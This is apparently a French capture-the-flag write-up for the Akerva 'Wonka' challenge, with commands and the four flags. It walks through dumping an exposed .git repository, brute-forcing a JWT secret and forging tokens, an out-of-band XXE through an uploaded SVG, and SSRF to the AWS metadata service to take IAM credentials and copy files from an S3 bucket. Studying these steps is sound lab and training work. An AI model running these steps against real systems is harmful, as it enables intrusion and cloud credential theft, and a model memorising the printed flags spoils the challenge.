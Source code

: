 # Wonka Chall

> Akerva

> https://willywonka.shop

## Step 1

More detail: ['Step1'](./step1.md)

1. dirsearch -> .git
2. GitTools -> dumper -> extractor
3. Flag 1 dans .git/COMMIT_EDITMSG

> 16ECD0DF90036C3CA8D6E988BB1737DC332CD72A8F4E62C32E0F825EDD155009

## Step 2

More detail: ['Step2'](./step2.md)

1. trouver le debug=1 dans le .git
2. aller sur la page /reset
3. bf les user -> trouver test
4. https://willywonka.shop/reset?debug=1 -> un jwt + backend.willywonka.shop dans la stacktrace
5. dirsearch sur le backend -> on trouve encore un /reset -> /reset?debug=1 -> set cookie : backend-session=jwt vide
6. bf avec rockyou le secret du jwt qu'on récup dans la stacktrace -> s3cr3t
7. refaire un jwt sur jwt.io avec un compte validateur (genre aas) et une expiration lointaine -> https://backend.willywonka.shop/reset/jwt_craft 
8. faire la meme que etape 4 mais avec le user aas pour se co avec
9. chercher le ticket "deadbeef" et flag

> 7ED33F3EB8E49C5E4BE6B8E2AE270E4018582B27E030D32DE4111DB585EE0318

## Step 3

More detail: ['Step3'](./step3.md)

1. réussir à trig la xxe via svg : [rest.svg](./step3/rect.svg)
2. upload [ro.svg](./step3/ro.svg) à l'adresse : http://willywonka.shop/profile?filetype=image%2fsvg%2bxml ==> XXE OOB
3. mettre `aas` en nom de victime et du garbage pour le reste
4. copier coller l'id du ticket dans le backend -> les logs du python server commencent à bouger
5. cliquer sur autoresize

> 0D7D2DDEA2B25FF0D35D3E173BA2CDCB120D3554E124EBE2B147B79CF0007630

## Step 4

More detail: ['Step4'](./step4.md)

1. pour chopper les creds du bucket, il faut taper sur http://169.254.169.254/latest/meta-data/iam/security-credentials/ grâce à la xxe
2. récupérer les infos du bucket : http://169.254.169.254/latest/dynamic/instance-identity/document
3. set les variables d'env : AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY, AWS_DEFAULT_REGION, AWS_SESSION_TOKEN
4. aws s3 ls s3://willywonka-shop
5. aws s3 cp s3://willywonka-shop/Flag-04.txt .

> 0AFBDBEA56D3B85BEBCA19D05088F53B61F372E2EBCDEFFCD34CECE8473DF528

## Resources

1. GitTools : https://github.com/internetwache/GitTools.git
2. Seclist, username shortlist : https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
3. jwt checker : https://jwt.io/
4. jwt_tool : https://github.com/ticarpi/jwt_tool
5. jwt encoder / decoder : https://www.jsonwebtoken.io/
6. lfi and ssrf via xxe : https://hackerone.com/reports/347139
7. xxe oob : https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/
8. s3 bucket ssrf metadata : https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/

---

## Useful command used

* dirsearch

```bash
python3 /opt/t/pentest/recona/dirsearch/dirsearch.py -u https://willywonka.shop/ -e do,java,action,db,sql,~,xml,pdf,jsp,php,old,bak,zip,tar,asp,aspx,txt,html,xsl,xslx -t 25
```

* gittools

```bash
/opt/t/pentest/exploit/GitTools/Dumper/gitdumper.sh https://willywonka.shop/.git/ git_out
/opt/t/pentest/exploit/GitTools/Extractor/extractor.sh git_out git_extract
```

* jwt_tool

```bash
python ./jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ0ZXN0IiwiYXVkIjoiZnJvbnRlbmQud2lsbHl3b25rYS5zaG9wIiwiaWF0IjoxNTYyNjY0MzE1LCJleHAiOjE1NjI2NjQ5MTV9.UW7ZBlYilpv6g5oI-ryrnq1l00kfurcTbaG2FtSEU-o /opt/t/bf/rockyou.txt
```